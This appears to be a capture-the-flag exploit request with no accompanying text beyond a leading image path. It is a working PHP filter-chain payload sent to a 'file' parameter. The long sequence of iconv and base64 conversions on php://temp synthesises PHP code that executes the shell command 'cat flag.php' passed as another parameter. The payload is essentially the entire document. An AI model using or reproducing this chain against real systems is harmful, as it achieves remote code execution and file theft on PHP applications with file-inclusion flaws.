 /?0=cat flag.php\&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA\_T500.L4|convert.iconv.ISO\_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859\_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT\_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859\_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859\_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859\_3.UTF16|convert.iconv.863.SHIFT\_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT\_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT\_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
